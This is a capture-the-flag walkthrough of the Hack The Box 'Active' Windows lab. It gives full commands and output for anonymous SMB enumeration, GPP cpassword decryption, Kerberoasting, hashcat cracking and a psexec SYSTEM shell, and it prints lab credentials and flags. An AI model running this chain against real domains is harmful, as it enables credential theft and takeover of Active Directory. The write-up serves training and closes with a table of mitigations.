# HackTheBox — Active | Full Walkthrough

> **Machine:** Active
> **Difficulty:** Easy (Windows)
> **Author:** vodanhtieutot
> **Platform:** Hack The Box

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [SMB Enumeration — SMBMap](#3-smb-enumeration--smbmap)
4. [Replication Share — SMBClient](#4-replication-share--smbclient)
5. [GPP Credential Discovery — Groups.xml](#5-gpp-credential-discovery--groupsxml)
6. [GPP Password Decryption — gpp-decrypt](#6-gpp-password-decryption--gpp-decrypt)
7. [Privilege Escalation — Kerberoasting](#7-privilege-escalation--kerberoasting)
8. [Hash Cracking — Hashcat](#8-hash-cracking--hashcat)
9. [Initial Access & Root — PSExec as Administrator](#9-initial-access--root--psexec-as-administrator)
10. [Flag Capture](#10-flag-capture)
11. [Flags & Answers Summary](#11-flags--answers-summary)
12. [Attack Chain Summary](#12-attack-chain-summary)
13. [Tools Used](#13-tools-used)

---

## 1. Overview

**Active** is an Easy-rated Windows machine on Hack The Box built around an **Active Directory** domain (`active.htb`). The attack path begins with unauthenticated SMB enumeration that exposes a readable **Replication** share. Inside the share, a leftover **Group Policy Preferences (GPP)** file (`Groups.xml`) contains an AES-encrypted password (`cpassword`) for the service account `SVC_TGS`. The built-in `gpp-decrypt` tool recovers the plaintext, which is then used for **Kerberoasting** to request a TGS ticket for the `Administrator` account. Offline cracking with Hashcat yields the Administrator password, and `impacket-psexec` delivers a SYSTEM shell.

```
Nmap → SMBMap (Replication READ) → smbclient → Groups.xml (cpassword)
→ gpp-decrypt → SVC_TGS:GPPstillStandingStrong2k18
→ GetUserSPNs (Kerberoast) → TGS hash → hashcat (rockyou)
→ Administrator:Ticketmaster1968 → psexec SYSTEM shell → flags
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `10.129.12.214` |
| Machine Name | `Active` |
| Domain | `active.htb` |
| OS | Windows Server 2008 R2 SP1 (6.1.7601) |
| Key Services | SMB (445), Kerberos (88), LDAP (389), WinRM (47001) |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Full Port Scan

```bash
nmap -Pn -p- --min-rate 5000 10.129.12.214
```



The scan reveals a classic **Active Directory Domain Controller** fingerprint — a large number of AD-related ports are open:

| Port | Service | Notes |
|---|---|---|
| 53/tcp | domain | DNS |
| 88/tcp | kerberos-sec | **Kerberos — AD authentication** |
| 135/tcp | msrpc | RPC |
| 139/tcp | netbios-ssn | NetBIOS |
| 389/tcp | ldap | **LDAP — AD directory** |
| 445/tcp | microsoft-ds | **SMB — primary attack surface** |
| 464/tcp | kpasswd5 | Kerberos password change |
| 593/tcp | http-rpc-epmap | RPC over HTTP |
| 636/tcp | ldapssl | LDAP over SSL |
| 3268/tcp | globalcatLDAP | Global Catalog LDAP |
| 3269/tcp | globalcatLDAPssl | Global Catalog LDAP SSL |
| 5722/tcp | msdfsr | MS Distributed File System Replication |
| 9389/tcp | adws | Active Directory Web Services |
| 47001/tcp | winrm | Windows Remote Management |

> **Note:** The presence of ports 88 (Kerberos), 389 (LDAP), 445 (SMB), and 3268 (Global Catalog) is a definitive Active Directory Domain Controller signature. SMB on port 445 is our primary entry point — start with unauthenticated enumeration.

---

## 3. SMB Enumeration — SMBMap

### 3.1 Unauthenticated Share Listing

Enumerate SMB shares without credentials (null session):

```bash
smbmap -H 10.129.12.214 -u "" -p ""
```



Results:

| Share | Permissions | Comment |
|---|---|---|
| ADMIN$ | NO ACCESS | Remote Admin |
| C$ | NO ACCESS | Default share |
| IPC$ | NO ACCESS | Remote IPC |
| NETLOGON | NO ACCESS | Logon server share |
| **Replication** | **READ ONLY** | **Accessible without credentials!** |
| SYSVOL | NO ACCESS | Logon server share |
| Users | NO ACCESS | — |

> 🎯 **Critical finding:** The `Replication` share allows **unauthenticated read access**. This is a misconfiguration that mirrors the SYSVOL share contents (Group Policy Objects, scripts, preferences) to an SMB share accessible without a password. This is where Group Policy Preferences files may be exposed.

---

## 4. Replication Share — SMBClient

### 4.1 Connecting to the Share

Connect anonymously and browse the directory structure:

```bash
smbclient //10.129.12.214/Replication -U '%' -N
smb: \> ls
```



The root of the share contains a single directory: **`active.htb`** — confirming the domain name and that this is a SYSVOL replica.

### 4.2 Navigating to Groups.xml

Drill down through the Group Policy directory tree:

```
active.htb\
  Policies\
    {31B2F340-016D-11D2-945F-00C04FB984F9}\
      MACHINE\
        Preferences\
          Groups\
            Groups.xml   ← TARGET
```

```bash
smb: \> cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE
smb: \...\MACHINE\> ls
# → Microsoft/, Preferences/
smb: \...\MACHINE\> cd Preferences
smb: \...\Preferences\> ls
# → Groups/
smb: \...\Preferences\Groups\> ls
# → Groups.xml  (533 bytes, Wed Jul 18 16:46:06 2018)
```



> 🎯 **Critical finding:** `Groups.xml` is a **Group Policy Preferences** file. These files were used by older Windows administrators to push local group configurations, and critically, they stored an AES-encrypted password (`cpassword`). Microsoft published the AES encryption key in 2012 (MS14-025), making all GPP-stored passwords instantly recoverable. Download the file:
>
> ```bash
> get Groups.xml
> ```

---

## 5. GPP Credential Discovery — Groups.xml

### 5.1 Reading the File

```bash
cat Groups.xml
```



The file reveals:

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{...}">
  <User clsid="{...}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{...}">
    <Properties action="U" newName="" fullName="" description=""
      cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
      changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0"
      userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

> 🎯 **Key findings:**
> - **Username:** `active.htb\SVC_TGS`
> - **cpassword (AES encrypted):** `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`
>
> GPP `cpassword` values are encrypted with a **static, publicly known AES-256 key** published by Microsoft. Any tool that knows this key can instantly decrypt any GPP cpassword.

---

## 6. GPP Password Decryption — gpp-decrypt

### 6.1 Decrypting the cpassword

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```



```
GPPstillStandingStrong2k18
```

> 🎯 **Credentials recovered:**
> - **Username:** `active.htb\SVC_TGS`
> - **Password:** `GPPstillStandingStrong2k18`
>
> The password `GPPstillStandingStrong2k18` is a direct reference to the long-standing nature of this vulnerability ("GPP Still Standing Strong 2k18"). The password itself is almost certainly intentional for the CTF, but real-world GPP cpasswords found in legacy environments are just as decryptable.

---

## 7. Privilege Escalation — Kerberoasting

### 7.1 What is Kerberoasting?

**Kerberoasting** is an Active Directory attack that:
1. Authenticates to the domain with a valid low-privilege account
2. Requests TGS (Ticket Granting Service) tickets for accounts that have **Service Principal Names (SPNs)** registered
3. Extracts the encrypted portion of the TGS ticket (encrypted with the service account's NTLM hash)
4. Cracks the hash offline

Since `SVC_TGS` suggests this account is intended for TGS-related operations, the `Administrator` account may have an SPN registered — making it Kerberoastable.

### 7.2 Requesting the TGS Ticket

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 \
  -dc-ip 10.129.12.214 -request
```



```
ServicePrincipalName  Name           MemberOf
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,...

$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$32b020d06ee40e3ccec...
[full hash truncated]
```

> 🎯 **Critical finding:**
> - The `Administrator` account has the SPN `active/CIFS:445` registered
> - This makes the Administrator account **Kerberoastable**
> - The TGS ticket hash (`$krb5tgs$23$`) is encrypted with the Administrator's NTLM hash
> - Hash mode for Hashcat: **13100** (Kerberos 5 TGS-REP etype 23)

---

## 8. Hash Cracking — Hashcat

### 8.1 Cracking the TGS Hash

Save the full hash to a file and crack with the rockyou wordlist:

```bash
hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt
```



```
Session.......: hashcat
Status........: Cracked
Hash.Mode.....: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target...: $krb5tgs$23$*Administrator$ACTIVE.HTB$...
Time.Started..: Mon Jun 8 05:34:31 2026 (7 secs)
Time.Estimated: Mon Jun 8 05:34:38 2026 (0 secs)
Guess.Base....: File (/usr/share/wordlists/rockyou.txt)
...
[hash]:Ticketmaster1968
```

> 🎯 **Administrator credentials recovered:**
> - **Username:** `Administrator`
> - **Password:** `Ticketmaster1968`
>
> The hash cracked in **7 seconds** using rockyou.txt — a reminder that weak passwords on highly-privileged accounts are catastrophic in AD environments.

---

## 9. Initial Access & Root — PSExec as Administrator

### 9.1 PSExec SYSTEM Shell

With full Administrator credentials, use Impacket's PSExec to get a remote shell:

```bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.129.12.214
```



```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on 10.129.12.214.....
[*] Found writable share ADMIN$
[*] Uploading file dcmsmcIG.exe
[*] Opening SVCManager on 10.129.12.214.....
[*] Creating service SUEq on 10.129.12.214.....
[*] Starting service SUEq.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

> 🎯 **SYSTEM shell obtained!** PSExec works by uploading a service binary to the writable `ADMIN$` share, registering it as a Windows service, and starting it — giving a SYSTEM-level command prompt. Windows Version 6.1.7601 = **Windows Server 2008 R2 SP1**.

---

## 10. Flag Capture

### 10.1 User Flag — user.txt

Navigate to the SVC_TGS user's Desktop:

```bash
C:\Windows\system32> cd C:\Users\SVC_TGS\Desktop
C:\Users\SVC_TGS\Desktop> dir
C:\Users\SVC_TGS\Desktop> type user.txt
ac705ae3b419847b071c6c1bff8c3fbd
```



> 🚩 **user.txt (User Flag):** `ac705ae3b419847b071c6c1bff8c3fbd`

### 10.2 Root Flag — root.txt

Navigate to the Administrator's Desktop:

```bash
C:\Users\SVC_TGS\Desktop> cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop> dir
C:\Users\Administrator\Desktop> type root.txt
9a218e2239423c38b1e01c3d79c003c7
```



> 🚩 **root.txt (Root Flag):** `9a218e2239423c38b1e01c3d79c003c7`

---

## 11. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `C:\Users\SVC_TGS\Desktop\user.txt` | `ac705ae3b419847b071c6c1bff8c3fbd` |
| Root Flag | `C:\Users\Administrator\Desktop\root.txt` | `9a218e2239423c38b1e01c3d79c003c7` |

---

## 12. Attack Chain Summary

```
[1] nmap -Pn -p- --min-rate 5000 10.129.12.214
        → Port 53, 88, 135, 139, 389, 445, 464, 636, 3268, 3269, 47001 ...
        → Classic Windows Active Directory Domain Controller

[2] smbmap -H 10.129.12.214 -u "" -p ""
        → Replication share: READ ONLY (unauthenticated)
        → All other shares: NO ACCESS

[3] smbclient //10.129.12.214/Replication -U '%' -N
        → Root: active.htb/ directory

[4] Navigate: active.htb\Policies\{31B2F340-...}\MACHINE\Preferences\Groups\
        → Groups.xml (533 bytes, 2018-07-18)
        → cpassword: edBSHOwhZLTjt/...
        → userName: active.htb\SVC_TGS

[5] gpp-decrypt edBSHOwhZLTjt/...
        → Plaintext: GPPstillStandingStrong2k18
        → Credentials: SVC_TGS : GPPstillStandingStrong2k18

[6] impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 \
    -dc-ip 10.129.12.214 -request
        → Administrator has SPN: active/CIFS:445
        → TGS hash: $krb5tgs$23$*Administrator$ACTIVE.HTB$...

[7] hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt
        → Cracked in 7 seconds
        → Administrator : Ticketmaster1968

[8] impacket-psexec active.htb/Administrator:Ticketmaster1968@10.129.12.214
        → SYSTEM shell on Windows Server 2008 R2 SP1
        → C:\Windows\system32>

[9] type C:\Users\SVC_TGS\Desktop\user.txt  → user flag ✓
    type C:\Users\Administrator\Desktop\root.txt → root flag ✓
```

---

## 13. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `smbmap` | Unauthenticated SMB share enumeration |
| `smbclient` | SMB share browsing and file retrieval |
| `gpp-decrypt` | Decrypting Group Policy Preferences `cpassword` fields |
| `impacket-GetUserSPNs` | Kerberoasting — requesting TGS tickets for SPN-registered accounts |
| `hashcat` | Offline hash cracking (mode 13100 — Kerberos 5 TGS-REP etype 23) |
| `impacket-psexec` | Remote SYSTEM shell via SMB service upload |

---

## Key Vulnerabilities & Lessons

| Vulnerability | Impact | Mitigation |
|---|---|---|
| GPP cpassword in SYSVOL replica | Domain credentials exposed to all domain users (and here: anonymous) | Remove all GPP password entries; apply MS14-025; never use GPP to set passwords |
| Replication share with anonymous read | Unauthenticated access to SYSVOL-equivalent data | Restrict SMB share permissions; disable anonymous/null sessions |
| Kerberoastable Administrator account | Administrator hash extractable by any domain user | Don't set SPNs on high-privilege accounts; use long random service account passwords; monitor for TGS requests |
| Weak service account password | Admin credentials cracked in seconds | Enforce strong password policy (25+ chars, random) for all service accounts |
